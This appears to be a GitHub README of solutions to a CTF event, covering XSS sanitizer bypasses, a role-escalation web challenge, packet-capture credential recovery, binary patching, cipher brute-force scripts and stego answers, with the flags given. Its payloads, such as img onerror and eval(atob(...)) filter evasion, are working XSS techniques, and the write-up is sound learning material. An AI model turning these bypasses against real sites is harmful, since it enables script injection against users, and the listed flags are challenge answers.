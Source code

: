 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 - eXSStravaganza-1

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2 - eXSStravaganza-2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3 - Unbreakable secret
Just call the function from console.

## 4 - The Bl0g
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5 - eXSStravaganza-3

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)

## Reversing - PWNVOYAGE-LEVEL0 (40 coins)
Bruteforce with some intuition. The code was "TOOYOUNGTODIEBRO". The code is PRLG{HURT_M3_PL3NTY}

## Reversing - PWNVOYAGE-LEVEL1 (90 coins)
Follow the instruction for the file, analyzing the assembly the password is U_R_MY_H3RO, The code is NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}.

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/1120c293-8dda-445c-805f-7d55cbb07012)

## Reversing - PWNVOYAGE-LEVEL2 (110 coins)
Follow the instruction for the file, patched the assembly, address 00101764 changed from JZ to JNZ. The code is NTRLGC{H3LL0B1TCH3S!}.
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/5a1df428-719c-4477-ae89-de6dd7e7ec89)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/ea3d815a-7a46-44ca-a1b3-1e427517a326)



## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed. The code is NTRLGC{CaesarSaladsForEveryone}.
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced, it take less than a second on my PC. The code is NTRLGC{m4y-7h3-47h-b3-w17h-y0u!}.
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```
## STEGO - GIFted (40 coins)
Divide the gif in frames and you can read the flag: `NTRLGC{THERARESTPEPEOFTHEMALL}`.

## STEGO - Unpleasant Challenge (40 coins)
The not colorblind-safe image contains the flag: `NTRLGC{1T5N0TFUNNY4T4LL}`.

## STEGO - Blue! (40 coins)
The image is not just a single color, open it with Paint and use the bucket:

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/e1c6b36f-bc46-4aaa-a0ff-59f1ba50cde3)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/c824c40c-9224-4331-a9be-76a985c53f14)
